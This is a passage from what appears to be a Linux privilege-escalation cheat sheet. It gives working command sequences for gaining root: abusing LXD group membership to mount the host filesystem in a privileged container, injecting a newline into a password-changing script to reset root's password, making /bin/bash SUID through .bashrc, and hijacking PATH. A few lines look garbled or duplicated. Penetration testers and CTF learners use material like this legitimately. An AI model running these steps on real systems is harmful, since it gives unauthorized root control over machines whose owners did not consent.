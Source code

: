 ### **LXD Group**

```bash
# Example steps for exploiting LXD group
# Clone and build Alpine image
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine

# Transfer the .tar.gz file to the target
# Import the image and create an LXD container
/snap/bin/lxc image import ./alpine-v3.18-x86_64-20230718_0359.tar.gz --alias myimage
/snap/bin/lxc init myimage ignite -c security.privileged=true
/snap/bin/lxc storage create pool dir
/snap/bin/lxc profile device add default root disk path=/ pool=pool
/snap/bin/lxc storage list
/snap/bin/lxc init myimage ignite -c security.privileged=true
/snap/bin/lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
/snap/bin/lxc start ignite
/snap/bin/lxc exec ignite /bin/sh
cd /mnt/root/root
```

### **Writable Cron Directory**

Refer to [https://cheatsheet.haax.fr/linux-systems/privilege-escalation/crontab/#writable-cron-directory](https://cheatsheet.haax.fr/linux-systems/privilege-escalation/crontab/#writable-cron-directory)

### **User Password Changing Script**

- Check for scripts that change passwords and run as root.
- Use **`\\x0A\\x0Aroot:NewPass`** to set the root password to **`NewPass`** when adding users.

### **PATH**

```bash
# Check current PATH
echo $PATH

# Modify PATH
echo "chmod +s /bin/bash" >> ~/.bashrc
```

## **Exporting Current Path and Running Executable**

```bash
export PATH=.:$PATH # setting as current path
chmod 777 ps
./rootownedfilee
```

## **NFS Exploitation**
